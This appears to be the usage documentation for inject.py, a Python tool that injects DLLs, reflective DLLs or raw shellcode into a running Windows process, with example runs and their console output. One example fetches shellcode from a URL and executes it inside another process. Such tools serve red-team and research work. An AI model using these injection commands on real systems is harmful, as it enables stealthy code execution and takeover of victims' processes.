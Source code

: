 inject.py -- injects code into other processes

This script requires administrative privileges.



Usage:



inject.py [-h] [--type TYPE] [--enc ENC] pid file



positional arguments:

  pid

  file



optional arguments:

  -h, --help   show this help message and exit

  --type TYPE  dll, refdll, raw

  --enc ENC    base64



Arguments description:
  
pid: PID of target process
  
file: path or URL of file to be injected


  TYPE: Type of file
 
	-dll:simple dll file

	-refdll:dll which can be injected with reflective dll injection technique

	-raw:raw binary shellcode

  ENC: Encoding of file. Currently only base64 is implemented. It is good enough.





Examples:



$ python inject.py --type refdll 7052 reflective_dll.dll


[+] Debug privilege enabled.

[+] Checking environment:       64 bit system architecture.     Current process is 64 bit (native).     Remote process is 32 bit (WOW64).

[+] Checking DLL file

[+] Dll file OK. Loader function name: _ReflectiveLoader@4, RVA: 1060

[+] Writing DLL data to remote process

[+] Starting ReflectiveLoader (_ReflectiveLoader@4) Start address: 220460

[-] CreateRemoteThread failed

[+] Failing back to NtCreateThreadEx

[+] Remote thread started.





$ python inject.py --type raw 7052 http://127.0.0.1:8000/x86runnotepad.bin


[+] Debug privilege enabled.

[+] Getting http://127.0.0.1:8000/x86runnotepad.bin

[+] Writing code to remote process

[+] Starting remote code

[-] CreateRemoteThread failed

[+] Failing back to NtCreateThreadEx

[+] Remote thread started.



